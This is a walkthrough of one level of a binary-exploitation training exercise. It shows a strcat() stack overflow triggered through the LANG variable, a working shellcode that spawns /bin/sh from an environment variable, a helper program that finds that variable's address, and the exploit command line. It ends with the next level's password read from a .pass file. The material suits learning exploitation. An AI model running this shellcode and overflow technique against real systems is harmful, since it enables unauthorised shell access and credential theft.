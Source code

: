 # Bonus2

> For introductory information on this operating system and binary securities, check [here](./Ressources/README.md).

Let's see what does the binary do.

```shell
  $> ./bonus2
  $> ./bonus2 "teststring" "teststring"
  Hello teststring
```

> Seems like this program do not respond to any inputs.

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./Ressources/gdb.md)). This time we need to exploit `strcat()` once again to trigger a Shellcode. This program is using a `LANG` environment variable to greet us in the corresponding language if we input two arguments. `fi` and `nl` are recognized along with english being the default one. We must use either `fi` or `nl` to overflow as the greeting message in english is too short. Using `nl` we find out that offset is equal to **23** bytes.

All we have to do is set `LANG` to `nl` and exporting a Shellcode into our environment...

```shell
  $> export LANG="nl"
  $> export SHELLCODE=`python -c 'print("\x90" * 1000 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'`
```

... then find its address using a simple program...

```C
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char** argv)
{
  printf("env address at %p\n", getenv(argv[1]));
  return (0);
}
```

... and finally plug it into the second argument with the right!

```shell
  $> ./bonus2 $(python -c "print '\x90' * 40") $(python -c "print '\x90' * 23 + '\xXX\xXX\xXX\xXX'[::-1]")
Goedemiddag! �������������������������������������������������������������������
  $ cat /home/user/bonus3/.pass
  71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

So next user credentials pair is `bonus3:71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587`.

Check [here](./source.c) for reproduction source-code of this binary.